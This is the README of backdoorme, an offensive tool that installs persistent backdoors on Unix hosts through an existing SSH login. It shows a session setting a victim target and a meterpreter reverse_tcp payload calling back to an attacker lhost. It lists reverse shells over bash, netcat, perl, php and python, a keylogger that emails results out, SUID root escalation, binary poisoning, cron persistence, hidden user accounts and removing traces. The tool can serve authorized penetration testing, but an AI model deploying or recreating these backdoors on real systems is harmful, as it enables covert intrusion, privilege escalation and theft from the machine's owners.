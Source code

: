 # backdoorme [![Build Status](https://travis-ci.org/Kkevsterrr/backdoorme.png)](https://travis-ci.org/Kkevsterrr/backdoorme)

 Backdoorme is a powerful utility capable of backdooring Unix machines with a slew of backdoors.  Backdoorme uses a familiar metasploit interface with tremendous extensibility. 
 
 Backdoorme relies on having an existing SSH connection or credentials to the victim, through which it will transfer and deploy any backdoors.  In the future, this reliance will be removed as the tool is expanded. 
 To set up SSH, please see here: https://help.ubuntu.com/community/SSH/OpenSSH/Configuring
 
 Please only use Backdoorme with explicit permission - please don't hack without asking.  
## Usage
Backdoorme comes with a number of built-in backdoors, modules, and auxiliary modules.  Backdoors are specific components to create and deploy a specific backdoor, such as a netcat backdoor or msfvenom backdoor.  Modules can be applied to any backdoor, and are used to make backdoors more potent, stealthy, or more readily tripped. Auxiliaries are useful operations that could be performed to help persistence.

[![IMAGE ALT TEXT](http://img.youtube.com/vi/HhnX1Y09KAk/0.jpg)](http://www.youtube.com/watch?v=HhnX1Y09KAk "BackdoorMe Sh demo")

To start backdoorme, first ensure that you have the required dependencies. 
```
$ sudo apt-get install python3 python3-pip python3-tk nmap
$ cd backdoorme/
$ virtualenv --python=python3.5 env
$ source env/bin/activate
(env) $ pip install -r requirements.txt
```
Launching backdoorme:
```
$ python master.py
   ___           __      __              __  ___
  / _ )___ _____/ /_____/ /__  ___  ____/  |/  /__
 / _  / _ `/ __/  '_/ _  / _ \/ _ \/ __/ /|_/ / -_)
/____/\_,_/\__/_/\_\\_,_/\___/\___/_/ /_/  /_/\__/
Welcome to BackdoorMe, a powerful backdooring utility. Type "help" to see the list of available commands.
Type "addtarget" to set a target, and "open" to open an SSH connection to that target.
Using local IP of 10.1.0.1.
>>
```
To add a target:
``` 
>> addtarget
Target Hostname: 10.1.0.2
Username: victim
Password: password123
 + Target 1 Set!
>>
```
### Backdoors

To use a backdoor, simply run the "use" keyword. 
``` 
>> use shell/metasploit
 + Using current target 1.
 + Using Metasploit backdoor...
(msf) >>
```
From there, you can set options pertinent to the backdoor.  Run either "show options" or "help" to see a list of parameters that can be configured.  To set an option, simply use the "set" keyword. 
```
(msf) >> show options
Backdoor options:

Option		Value		Description		Required
------		-----		-----------		--------
name		initd		name of the backdoor		False
format		elf		format to write the backdoor to		True
lhost		10.1.0.1		local IP to connect back to		True
encoder		none		encoder to use for the backdoor		False
lport		4444		local port to connect back on		True
payload		linux/x86/meterpreter/reverse_tcp		payload to deploy in backdoor		True
(msf) >> set name apache
 + name => apache
(msf) >> show options
Backdoor options:

Option		Value		Description		Required
------		-----		-----------		--------
name		apache		name of the backdoor		False
...
```
As in metasploit, backdoors are organized by category. 
- Auxiliary
  - **keylogger** - Adds a keylogger to the system and gives the option to email results back to you.
  - **simplehttp** - installs python's SimpleHTTP server on the client.
  - **user** - adds a new user to the target.
  - **web** - installs an Apache Server on the client.
- Escalation
  - **setuid** - the SetUID backdoor works by setting the setuid bit on a binary while the user has root acccess, so that when that binary is later run by a user without root access, the binary is executed with root access. By default, this backdoor flips the setuid bit on nano, so that if root access is ever lost, the attacker can SSH back in as an unpriviledged user and still be able to run nano (or any chosen binary) as root. ('nano /etc/shadow'). Note that root access is initially required to deploy this escalation backdoor. 
   - **shell** - the shell backdoor is a priviledge escalation backdoor, similar to (but more specific than) it's SetUID escalation brother. It duplicates the bash shell to a hidden binary, and sets the SUID bit.  Note that root access is initially required to deploy this escalation backdoor. To use, while SSHed in as an unpriviledged user, simply run ".bash -p", and you will have root access.
- Shell
  - **bash** - uses a simple bash script to connect to a specific ip and port combination and pipe the output into bash.
  - **bash2** - a slightly different (and more reliable) version of the above bash backdoor which does not prompt for the password on the client-side.
  - **sh** - Similar to the first bash backdoor, but redirects input to /bin/sh.
  - **sh2** - Similar to the second bash backdoor, but redirects input to /bin/sh.
  - **metasploit** - employs msfvenom to create a reverse_tcp binary on the target, then runs the binary to connect to a meterpreter shell.
  - **netcat** - uses netcat to pipe standard input and output to /bin/sh, giving the user an interactive shell.
  - **netcat_traditional** - utilizes netcat-traditional's -e option to create a reverse shell.
  - **perl** - a script written in perl which redirects output to bash, and renames the process to look less conspicuous.
  - **php** - runs a php backdoor which sends output to bash. It does not automatically install a web server, but instead uses the web module
  - **pupy** - uses n1nj4sec's Pupy backdoor, found at https://github.com/n1nj4sec/pupy.
  - **python** - uses a short python script to perform commands and send output back to the user.
  - **web** - ships a web server to the target, then uploads msfvenom's php reverse_tcp backdoor and connects to the host. Although this is also a php backdoor, it is not the same backdoor as the above php backdoor.
- Access
  - **remove_ssh** - removes the ssh server on the client. Often good to use at the end of a backdoorme session to remove all traces.
  - **ssh_key** - creates RSA key and copies to target for a passwordless ssh connection.
  - **ssh_port** - Adds a new port for ssh.
- Windows
  - **windows** - Uses msfvenom to create a windows backdoor.
  
### Modules
Every backdoor has the ability to have additional modules applied to it to make the backdoor more potent. To add a module, simply use the "add" keyword. 
```
(msf) >> add poison
 + Poison module added
```
Each module has additional parameters that can be customized, and if "help" is rerun, you can see or set any additional options. 
```
(msf) >> help
...
Poison module options:

Option		Value		Description		Required
------		-----		-----------		--------
name	    ls		  name of command to poison		False
location /bin		where to put poisoned files into		False
```
Currently enabled modules include:
 - Poison
  - Performs bin poisoning on the target computer - it compiles an executable to call a system utility and an existing backdoor.
  - For example, if the bin poisoning module is triggered with "ls", it would would compile and move a binary called "ls" that would run both an existing backdoor and the original "ls", thereby tripping a user to run an existing backdoor more frequently. 
 - Cron
  * Adds an existing backdoor to the root user's crontab to run with a given frequency.  
 - Web
  - Sets up a web server and places a web page which triggers the backdoor.
  - Simply visit the site with your listener open and the backdoor will begin.
 - User
  - Adds a new user to the target.
 - Startup
  - Allows for backdoors to be spawned with the bashrc and init files.
 - Whitelist
  - Whitelists an IP so that only that IP can connect to the backdoor.

### Targets
Backdoorme supports multiple different targets concurrently, organized by number when entered. The core maintains one "current" target, to which any new backdoors will default. To switch targets manually, simply add the target number after the command: "use metasploit 2" will prepare the metasploit backdoor against the second target. Run "list" to see the list of current targets, whether a connection is open or closed, and what backdoors & modules are available. 

## Contributing
Backdoorme is still very much in its infancy! Feel free to contribute to the project - simply fork it, make your changes, and issue a pull request. Have an idea for a killer backdoor, or something we could improve? Make an issue and we'll add it ASAP! Please email us at backdoormegit@gmail.com with any questions.

If you wish to add your own backdoor, follow the directions given in the backdoorme/backdoors/template.py file.

If you wish to add your own module, follow the directions given in the backdoorme/modules/template.py file.

Cheat Sheet for developers:
- Execute command on system: self.core.curtarget.ssh.exec_command("command")
- Retrieve an option: self.get_value("option")
- Execute command on system with root: self.target.ssh.exec_command("echo " + self.core.curtarget.pword + " | sudo -S command") 
